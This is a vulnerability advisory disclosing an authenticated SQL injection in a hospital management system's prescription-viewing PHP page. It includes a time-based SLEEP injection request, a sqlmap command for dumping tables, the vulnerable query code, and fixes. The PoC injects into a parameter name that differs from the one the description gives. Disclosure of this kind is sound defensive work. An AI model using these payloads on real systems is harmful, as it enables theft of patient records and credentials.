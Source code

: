 # CVE ASSIGNED: 
## CVE PUBLISHED STATE:  
## CVE LINK: 

## Description:
The patient prescription viewing functionality in his_doc_view_single_patient.php of rickxy Hospital Management System version 1.0 contains an SQL injection vulnerability. The pres_pat_number GET parameter is directly concatenated into SQL queries without proper sanitization, allowing authenticated attackers (doctor role) to execute arbitrary SQL queries. This vulnerability enables complete database compromise and exposure of sensitive medical data including patient records, prescriptions, and administrative credentials.

## Impact:
- Complete database compromise through SQL injection
- Unauthorized access to patient medical records  
- Exposure of sensitive healthcare data (HIPAA violation)
- Administrative credential theft and privilege escalation


## Attack Scenario:
1. Attacker gains doctor-level access to the HMS application
2. Navigates to patient prescription viewing functionality
3. Captures requests to his_doc_view_single_patient.php endpoint  
4. Manipulates pres_pat_number parameter with SQL injection payloads
5. Executes time-based, union-based, or boolean-based SQL injection
6. Extracts complete database contents including patient data and admin credentials
7. Achieves privilege escalation

## Technical Details:
- **Vulnerability Type:** SQL Injection
- **CWE Classification:** CWE-89 (Improper Neutralization of Special Elements used in an SQL Command)  
- **Attack Type:** Remote (Authenticated)
- **Affected Version:** 1.0
- **Affected Component:** his_doc_view_single_patient.php (Doctor Module)
- **Impact:** Complete Database Compromise
- **Parameter:** pres_pat_number (GET parameter)

## Affected Products:
- rickxy Hospital Management System: https://github.com/rickxy/Hospital-Management-System
- All installations running version 1.0

## Vendor Information:
rickxy  
https://github.com/rickxy/Hospital-Management-System

## Proof of Concept:
1. Authenticate as doctor user in HMS application
2. Navigate to patient prescription viewing page
3. Capture request to his_doc_view_single_patient.php
4. Execute SQL injection via pres_pat_number parameter:

**Time-based injection:**
```
GET /hms/backend/doc/his_doc_view_single_patient.php?pat_id=12&&pat_number=4TLG0%27+AND+SLEEP(1);--%20- HTTP/1.1
```

**sqlmap exploitation:**
```bash
sqlmap -u "http://localhost/hms/backend/doc/his_doc_view_single_patient.php?pat_number=*" --cookie "PHPSESSID=" -D hmisphp --tables
```
![alt text](image.png)

**Vulnerable code:**
```php
<?php
$pres_pat_number=$_GET['pres_pat_number'];
$ret="SELECT * FROM his_prescriptions WHERE pres_pat_number = '$pres_pat_number'";
$stmt= $mysqli->query($ret);
$res=$stmt->fetch_object();
?>
```

## References:
- CWE-89: https://cwe.mitre.org/data/definitions/89.html
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection
- HIPAA Security Rule: https://www.hhs.gov/hipaa/for-professionals/security/

## Severity: Critical

## Fix:
- Implement parameterized queries/prepared statements for all database operations
- Add comprehensive input validation and sanitization
- Use whitelist-based validation for patient numbers  
- Implement proper error handling without information disclosure
- Add database query logging and monitoring
- Conduct security code review of all SQL operations
- HIPAA compliance audit and security controls implementation

## Discoverer:
Cristian Branet
